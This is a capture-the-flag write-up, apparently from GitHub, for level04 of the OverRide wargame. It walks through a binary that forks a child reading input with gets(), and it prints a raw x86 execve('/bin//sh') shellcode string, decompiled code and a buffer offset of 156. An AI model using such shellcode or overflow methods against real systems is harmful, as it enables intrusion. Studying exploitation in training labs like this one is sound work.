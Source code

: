 # Level 04

Once logged in, you will see a binary.

```
$ ssh localhost -p 4242 -l level04
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level04@localhost's password:
Permission denied, please try again.
level04@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
level04@OverRide:~$ ls
level04
level04@OverRide:~$
```

Once the program executes, it suddenly asks for the [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php), so let's just provide them.

```
level04@OverRide:~$ ./level04
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
child is exiting...
level04@OverRide:~$
```

Okay, seems like this didn't do anything. But, there is a hint given `child is exiting...`. With the decompiled source, the program actually `forks`, and the process are run on the child process.

The child process actually takes input from the function `gets`, and once the child process finishes its process, the parent process will do the remaining work. (below is the part of the code )

```
   if (local_14 == 0) {
     prctl(1,1);
     ptrace(PTRACE_TRACEME,0,0,0);
     puts("Give me some shellcode, k");
     gets((char *)local_a0);
   }
   else {
     do {
       wait(&local_a4);
       local_20 = local_a4;
       if (((local_a4 & 0x7f) == 0) ||											 <- We don't want to fall into this
          (local_1c = local_a4, '\0' < (char)(((byte)local_a4 & 0x7f) + 1) >> 1)) {
         puts("child is exiting...");
         return 0;
       }
       local_18 = ptrace(PTRACE_PEEKUSER,local_14,0x2c,0);						<- We want to fall into this
     } while (local_18 != 0xb);
     puts("no exec() for you");
     kill(local_14,9);
   }
```

Since the program calls the child process, in the debugger, the [`follow-fork-mode child`](https://ftp.gnu.org/old-gnu/Manuals/gdb/html_node/gdb_25.html) to let GDB follow the child process.

```

```

and got offset 156, by using [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)


